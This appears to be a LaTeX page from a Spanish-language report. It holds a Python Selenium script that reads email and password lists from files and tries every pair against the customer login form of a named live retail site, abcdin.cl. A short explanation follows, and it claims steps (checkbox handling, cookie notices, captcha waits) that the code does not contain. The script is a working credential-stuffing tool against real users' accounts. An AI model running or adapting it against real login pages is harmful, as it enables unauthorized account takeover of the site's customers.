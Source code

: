 \documentclass{article}
\begin{document}
\begin{lstlisting}[lenguaje=Python]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    for contraseña in contraseñas:
        for correo in correos: 
            
            email = driver.find_element(By.ID, "email")
            email.clear()
            email.send_keys(correo)
            time.sleep(1)
            passw = driver.find_element(By.ID,"pass")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(1)
            driver.find_element(By.ID, "send2").click()
            time.sleep(2)
    driver.close()

\end{lstlisting}

\\\\
Al inicio del código, se utilizan funciones para poder leer los datos que fueron entregados mediante archivos, en donde se almacenó los correos
y contraseñas.

Posteriormente en el código se puede observar como se asocia el driver correspondiente al software, para posteriormente ir dando indicaciones, las cuales serán: 
\begin{itemize}
    \item Hacer click en botones. 
    \item Trabajar con Checkbox.
    \item Quitar Avisos de Cookies.
    \item Iniciar un Sleep, para permitirle al usuario interactuar con un Captcha.
    \item Ingresar Credenciales.
\end{itemize}
\end{document}
